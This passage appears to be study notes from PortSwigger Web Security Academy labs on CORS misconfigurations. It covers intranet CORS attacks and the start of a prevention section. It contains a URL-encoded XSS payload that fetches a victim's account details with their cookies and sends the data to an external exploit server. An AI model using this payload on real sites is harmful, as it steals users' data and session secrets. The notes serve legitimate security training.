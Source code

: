 ```
	window.location="http://stock.0afb007803baead7804003630080003a.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%0a%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%66%62%30%30%37%38%30%33%62%61%65%61%64%37%38%30%34%30%30%33%36%33%30%30%38%30%30%30%33%61%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%0a%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%0a%72%65%71%2e%73%65%6e%64%28%29%3b%0a%0a%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%0a%09%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%38%30%30%34%31%30%33%32%32%65%61%63%33%38%30%62%34%30%32%66%62%30%31%37%39%30%30%31%61%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&storeId=1"
</script>
```
- Deliver the payload to victim and solve the lab

# Intranets and CORS without credentials
- Most CORS attacks rely on the presence of the response header:
```
Access-Control-Allow-Credentials: true
```
- Without that header, the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

- However, there is one common situation where an attacker can't access a website directly: when it's part of an organization's intranet, and located within private IP address space. 
- Internal websites are often held to a lower security standard than external sites, enabling attackers to find vulnerabilities and gain further access. 
- For example, a cross-origin request within a private network may be as follows:
```
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```
- And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```
- The application server is trusting resource requests from any origin without credentials. 
- If users within the private IP address space access the public internet then a CORS-based attack can be performed from the external site that uses the victim's browser as a proxy for accessing intranet resources.

# How to prevent CORS-based attacks
- CORS vulnerabilities arise primarily as misconfigurations. 
- Prevention is therefore a configuration problem. 
- The following sections describe some effective defenses against CORS attacks.
